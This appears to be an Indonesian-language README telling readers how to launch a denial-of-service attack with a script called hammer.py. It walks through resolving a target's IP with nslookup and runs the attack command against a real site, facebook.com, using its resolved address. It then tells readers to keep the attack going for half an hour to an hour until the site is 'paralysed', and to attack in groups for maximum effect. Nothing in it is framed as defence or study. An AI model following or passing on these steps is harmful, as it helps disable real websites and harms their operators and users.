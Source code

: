 pertama cari ip target dengan menggunakan nslookup!
ketikan kode di bawah ini !!
$nslookup target.com

nanti akan muncul ip target kemudian salin ip nya.
kemudian ketikan perintah

$python hammer.py -s iptarget -p 80 -t 135

untuk bagian ip target,kalian masukan ip yg tadi kalina salin.

contoh kami akan menyerang sebuah website seperti facebook.
maka yg pertama kali kami cari adalah alamat ip nya.

$nslookup facebook.com

maka akan muncul sebagai berikut : 

Server:         8.8.8.8
Address:        8.8.8.8#53

Non-authoritative answer:                                                               
Name:   facebook.com                                                                    
Address: 31.13.95.35                                                                    
Name:   facebook.com                                                                    
Address: 2a03:2880:f14d:181:face:b00c:0:25de

maka yg kami ambil adalah ip yg atas..
jadi begini perintah nya .!

$python hammer.py -s 31.13.95.35 -p 80 -t 135

maka ddos pun akan segera di mulai....
tunggu saja sampai 1/2 atau 1 jam agar target bisa lumpuh.
dan agar bisa mendapat hasio maksimal,maka serangan ddos harus di lakukan secara berkelompok alias bukan hanya seorang diri.

